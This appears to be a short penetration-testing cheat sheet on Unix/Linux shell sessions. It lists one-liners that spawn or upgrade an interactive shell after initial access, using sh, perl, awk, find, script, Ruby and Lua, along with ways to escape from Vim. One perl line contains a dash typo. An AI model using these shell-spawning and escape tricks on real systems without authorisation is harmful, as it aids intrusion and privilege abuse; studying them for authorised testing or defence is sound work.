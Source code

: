 ## Unix/Linux 

When considering how we will establish a shell session on a Unix/Linux system, we will benefit from considering the following:
- What distribution of Linux is the system running?
- What shell & programming languages exist on the system? 
- What function is the system serving for the network environment it is on?
- What application is the system hosting?
- Are there any known vulnerabilities?

To spawn interactive shells, after succesfully get one. First we can do it inside the shell:
```bash
/bin/sh -i
```

```bash
perl —e 'exec "/bin/sh";'
```

```bash
awk 'BEGIN {system("/bin/sh")}'
```

```bash
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

```bash
find . -exec /bin/sh \; -quit
```

```console
$ script /dev/null -c bash
```

Or in a file:
```perl
exec "/bin/sh";
```

```ruby
exec "/bin/sh"
```

```lua
os.execute('/bin/sh')
```

In Vim:
```
!/bin/sh'
```

To scape from Vim:
```
vim
:set shell=/bin/sh
:shell
```

---